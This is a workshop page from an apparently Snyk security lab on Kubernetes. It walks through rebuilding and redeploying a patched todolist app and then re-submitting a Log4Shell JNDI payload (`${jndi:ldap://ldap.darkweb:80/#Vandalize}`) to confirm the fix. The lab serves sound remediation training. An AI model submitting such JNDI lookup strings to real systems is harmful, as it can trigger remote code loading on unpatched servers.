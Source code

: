 +++
title = "Step 9: Verify the Vulnerability is no longer exploitable."
chapter = false
weight = 44
+++

## Update your working copy

Back in your terminal, pull the latest changes, including the Snyk Fix, to the working environment.

```sh
git pull
```

## Re-build the Image
Now build and push the container to GAR (make sure you are cd'ed into the todolist directory).

{{% notice info %}}
As mentioned earlier, the following command includes `--platform=linux/amd64` to ensure the correct CPU architecture is used for your GKE cluster. This is nessesary if your local workstation is not Intel/AMD based, i.e. Apple Silicon or Raspberry Pi.  If you are on an Intel/AMD based workstation, you may omit that portion if you like. 
{{% /notice %}}

```sh
docker build -t $REPO/todolist:latest --platform=linux/amd64 todolist
docker push $REPO/todolist:latest
```

## Re-deploy the Application to GKE

After pushing the image to GAR, push it to GKE by scaling the goof deployment with kubectl. The deployment's ImagePullPolicy forces GKE to pull the latest image from GAR.

```sh
kubectl scale deployment todolist --replicas=0
kubectl scale deployment todolist --replicas=1
```

## Verify the Exploit no longer works

Refresh your broweser tab on the todolist app and log back in (user: foo@bar.org, password: foobar) and submit the same JDNI search string: `${jndi:ldap://ldap.darkweb:80/#Vandalize}`.
The page will not show the graphiti because the newer version on Log4J no longer is vulnerable!

![todolist-fixed](/images/todolist-fixed.png)